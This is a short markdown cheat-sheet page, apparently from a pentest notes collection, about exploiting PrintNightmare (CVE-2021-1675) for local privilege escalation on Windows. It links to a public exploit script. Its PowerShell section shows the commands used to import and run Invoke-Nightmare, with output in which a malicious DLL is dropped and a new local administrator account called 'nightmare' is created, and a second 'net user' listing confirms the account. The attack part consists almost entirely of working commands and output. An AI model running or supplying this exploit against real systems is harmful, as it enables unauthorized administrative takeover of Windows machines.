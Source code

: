 # Printnightmare

## Printnightmare LPE Sharpprintnightmare

to do

## Printnightmare LPE Powershell

Download script from here : [https://github.com/gyaansastra/Print-Nightmare-LPE](https://github.com/gyaansastra/Print-Nightmare-LPE)

check current users

```text
PS C:\Users\testuser\Desktop\share> net user

User accounts for \\PC-WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount       win10
The command completed successfully.
```

import and execute script

```text
PS C:\Users\testuser\Desktop\share> . .\CVE-2021-1675.ps1
PS C:\Users\testuser\Desktop\share> Invoke-Nightmare -NewUser nightmare -NewPassword "Pass123!" -DriverName "printme"
[+] created payload at C:\Users\win10\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll"
[+] added user nightmare as local administrator
[+] deleting payload from C:\Users\win10\AppData\Local\Temp\nightmare.dll
PS C:\Users\testuser\Desktop\share> net user

User accounts for \\PC-WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
nightmare                WDAGUtilityAccount       win10
The command completed successfully.

PS C:\Users\testuser\Desktop\share>
```

